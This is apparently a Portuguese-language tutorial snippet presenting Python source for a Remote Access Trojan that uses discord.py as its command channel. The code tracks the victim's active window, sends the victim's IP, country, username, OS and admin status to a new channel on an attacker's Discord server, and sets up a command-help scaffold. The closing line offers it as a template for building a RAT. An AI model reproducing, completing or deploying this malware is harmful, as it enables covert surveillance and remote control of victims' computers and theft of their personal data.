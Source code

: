 ```py
    while True:
        current_window = win32gui.GetWindowText(win32gui.GetForegroundWindow())
        window_displayer = discord.Game(f"Visiting: {current_window}")
        await bot.change_presence(status=discord.Status.online, activity=window_displayer)
        await asyncio.sleep(3)

@bot.event
async def on_ready():
    global channel_name

    with urllib.request.urlopen("https://ipinfo.io/json") as url:
        data = json.loads(url.read().decode())
        flag = data['country']
        ip = data['ip']

    user_name = os.getlogin()
    session_name = f"session-{user_name}"
    
    guild = bot.guilds[0]
    existing_channel = discord.utils.get(guild.channels, name=session_name)

    if existing_channel:
        await existing_channel.delete()

    new_channel = await guild.create_text_channel(session_name)
    channel_name = session_name

    is_admin = isAdmin()
    message = (f"@here :white_check_mark: New session opened {session_name} | {platform.system()} "
               f"{platform.release()} |  :flag_{flag.lower()}: | User: {user_name} | IP: {ip}")
    if is_admin:
        message += " | admin!"
    
    await new_channel.send(message)
    
    game = discord.Game(f"Window logging stopped")
    await bot.change_presence(status=discord.Status.online, activity=game)

    bot.loop.create_task(activity())

def split_message(message, limit=2000):
    adjusted_limit = limit - 6
    return [message[i:i+adjusted_limit] for i in range(0, len(message), adjusted_limit)]



@bot.command(name='help', help="Mostra esta mensagem de ajuda.")
async def help(ctx):
    help_message = "Comandos Disponíveis:\n\n"
    for command in bot.commands:
        help_message += f"{prefix}{command.name:<15} -> {command.help}\n"
    parts = split_message(help_message)
    for part in parts:
        await ctx.send(f"```{part}```")

```
#
Este é o template básico para iniciar um RAT (Remote Access Trojan) com a biblioteca `discord.py`. Com ele, você já pode começar a implementar comandos e funcionalidades personalizadas para o seu RAT.
